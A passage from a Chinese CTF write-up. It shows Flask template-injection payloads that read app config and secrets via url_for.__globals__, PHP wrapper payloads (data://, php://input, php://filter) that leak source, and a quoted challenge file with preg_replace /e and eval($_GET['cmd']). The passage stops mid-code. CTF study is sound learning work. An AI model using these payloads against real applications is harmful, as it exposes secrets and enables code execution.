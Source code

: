 *   所以，查看当前app的config

    ```
    {{url_for.__globals__['current_app'].config}} 
    ```

*   用`get_flashed_messages` 也一样，同样先找到`'current_app': <Flask 'app'>`再引用`__globals__['current_app']`

    ```
     {{get_flashed_messages.__globals__['current_app'].config}} 
    ```

![在这里插入图片描述](img/e1096b6c4c52a2058efc250fa66f6d39.png)

*   这题目做下来，好像就知道了内置函数 `url_for` 和 `get_flashed_messages` 可以替代`config`。最后找到[一篇博客](https://blog.csdn.net/houyanhua1/article/details/85470175)介绍它们。
*   先看到 app.config[‘FLAG’] = os.environ.pop(‘FLAG’) 想到要读取环境变量，但用config不行，所以用上面提到的代替，然后找到current_app读取。

### 4、[BJDCTF2020]ZJCTF,不过如此

*   第一步就很简单，PHP伪协议读取它提示的`next.php` 源码。

*   满足两个条件，file_get_contents 读取的 `text` 变量为I have a dream 和`file`变量不包含flag。

*   但是并不能直接传入 ext=I have a dream 。得用[PHP伪协议](https://blog.csdn.net/qq_43622442/article/details/105894182)

    ```
    text=data://text/plain,I have a dream
    或
    text=php://input
    post：I have a dream 
    ```

*   而file变量就很简单，直接读

    ```
    file=php://filter/read/convert.base64-encode/resource=next.php 
    ```

*   得到next.phpd的源码。

```
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}

foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}
function getFlag(){
    @eval($_GET['cmd']);
```
